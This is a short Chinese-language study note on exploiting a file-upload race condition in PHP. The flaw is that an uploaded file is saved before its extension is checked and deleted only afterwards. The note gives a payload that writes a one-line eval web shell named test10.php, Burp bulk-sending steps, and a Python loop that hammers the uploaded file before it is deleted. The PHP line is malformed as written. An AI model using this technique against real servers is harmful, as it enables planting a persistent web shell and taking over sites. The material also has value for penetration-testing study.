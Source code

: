 这是由于开发者设计应用程序并发处理时操作逻辑不合理造成的。当应用面临高并发的请求时未能同步所有的请求，导致请求之间产生等待时间逻辑错误。

## 判断
这种错误适用于我们先上传后判断的 php 逻辑，
如果我们先对文件进行保存，在判断后缀是否复合，如果不符合就删除，那么我们就可以多线程上传文件，同时一直访问上传的未见，使服务器来不及删除，达到写 shell 的目的。
![[Pasted image 20231127185240.png]]
## 流程 
1. 编写一个 php 脚本如下所示：
```php
file_put_contents('test10.php',<?php eval($_POST[0]);>?);
```

2. 把我们的脚本上传到网页后，一旦我们访问了，我们就可以一直写。
![[Pasted image 20231127185706.png]]

3. 用我们的 burp 去批量发送包
![[Pasted image 20231127185720.png]]

然后我们直接在 payloads 中设置我们的次数即可。
![[Pasted image 20231127185802.png]]

3. 我们发包后，我们用我们 python 来接受
```python
import requests
url="....../文件位置";
while(1):
	res=requests.get(url);
	print(res.status_code);
```

4. 我们不断运行后，我们会在我们的网站中创建一个 `test10.php` 的文件，我们可以通过直接访问这个文件